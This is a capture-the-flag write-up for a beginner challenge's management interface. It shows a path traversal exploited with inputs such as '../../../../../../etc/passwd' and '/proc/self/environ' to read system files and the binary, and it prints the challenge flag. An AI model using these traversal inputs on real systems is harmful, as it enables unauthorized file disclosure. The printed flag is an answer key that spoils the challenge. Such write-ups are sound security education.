 ### Admin UI / PWN-RE / Temp-o-matic

Flag: `CTF{I_luv_buggy_sOFtware}`

> The command you just found removed the Foobanizer 9000 from the DMZ. While scanning the network, you find a weird device called Tempo-a-matic. According to a Google search it's a smart home temperature control experience. The management interface looks like a nest of bugs. You also stumble over some gossip on the dark net about bug hunters finding some vulnerabilities and because the vendor didn't have a bug bounty program, they were sold for US$3.49 a piece. Do some black box testing here, it'll go well with your hat.

`$ nc mngmnt-iface.ctfcompetition.com 1337`

Let's connect and see:

```
$ nc mngmnt-iface.ctfcompetition.com 1337
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit
```

Let's try option 1:

```
1
Please enter the backdoo^Wservice password:
dfgdfgdfgdfgdf
Incorrect, the authorities have been informed!
```

Interesting, but let's continue our discovery. Let's try option 2:

```
2
The following patchnotes were found:
 - Version0.3
 - Version0.2
Which patchnotes should be shown?
dsfsdfsdfsdf
Error: No such file or directory
```

Oh! See that error? This means our input is used to open a file!

Let's try some things:

```
../../../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
...
_apt:x:104:65534::/nonexistent:/bin/false
user:x:1337:1337::/home/user:
```

To see the environment `../../../proc/self/environ`:

```
LANG=en_US.UTF-8
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
HOME=/home/unprivileged
LOGNAME=unprivileged
USER=unprivilegedSHELL
```

Or all files in memory:

```
../../../proc/self/maps
00400000-00401000 r-xp 00000000 08:01 512577                             /home/user/main
41414000-41415000 r-xp 00014000 08:01 512577                             /home/user/main
41615000-41616000 r--p 00015000 08:01 512577                             /home/user/main
41616000-41617000 rw-p 00016000 08:01 512577                             /home/user/main
41f69000-41f9b000 rw-p 00000000 00:00 0                                  [heap]
7efc221cc000-7efc2238c000 r-xp 00000000 08:01 512984                     /lib/x86_64-linux-gnu/libc-2.23.so
...
```

To download the CTF binary we can use `../../../proc/self/exe`.

I start inspecting the binary and see some interesting strings:
![](imgs/admin-ui.png)

See that `patchnotes/` and `flag` ?

I feel lucky and try `flag` - but no luck. But that `patchnotes/` looks like a directory. Maybe our flag is one level up?

```
Which patchnotes should be shown?
../flag
CTF{I_luv_buggy_sOFtware}
```
